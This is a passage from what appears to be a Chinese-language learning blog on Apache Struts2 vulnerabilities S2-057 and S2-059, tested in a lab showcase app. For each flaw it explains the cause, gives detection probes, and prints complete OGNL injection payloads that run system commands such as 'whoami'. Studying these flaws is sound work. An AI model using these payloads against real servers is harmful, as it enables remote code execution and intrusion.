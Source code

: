 <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/75a6d86ac1767df9d56e36b600017e5c.jpeg"/><br/> 成功执行

#### S2-057

S2-057漏洞产生于网站配置xml的时候，有一个namespace的值，该值并没有做详细的安全过滤导致可以写入到XML上，尤其url标签值也没有做通配符的过滤，导致可以执行远程代码，以及系统命令到服务器系统中去<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/21d9f2b8a9771c5f4c003c88316a90e6.jpeg"/><br/> 空的

##### 检测

`/struts2-showcase/$%7B1+2+3+4+5+6%7D/actionChain1.action`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/184520879ec54c193563d3874dab18c3.jpeg"/><br/> 1+2+3+4+5+6=21,很合理

##### 命令执行

whoami

```
/struts2-showcase/%24%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27whoami%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3f219be249df39b6397645fe46471d5d.jpeg"/><br/> 成功执行

#### S2-059

Apache Struts2使用某些标签时,会对标签属性值进行二次表达式解析,当标签属性值使用了%{skillName}并且skillName的值用户可以控制,就会造成OGNL表达式执行<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ddef684dadf41c10cabe639ffa39df04.jpeg"/>

##### 检测

`?id=%25{3*3}`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d7c7b4de583add048c3eda57410d59b0.jpeg"/><br/> 源码中被插入了9

##### 命令执行

payload:

```
%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('whoami'))}

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/944a830af2b0c73ff93048ec40fbfea8.jpeg"/><br/> 很奇怪，400，懂的老哥可以给我讲讲为什么不成功

### 总结

这次Struts2的学习，学到了环境的搭建，各种Struts2漏洞的检测方法RCE操作等等。之前只是知道Struts2漏洞这个东西，没想到有这么多的种类，这么多的攻击手法。希望师傅们都可以掌握Struts2的知识，共勉。
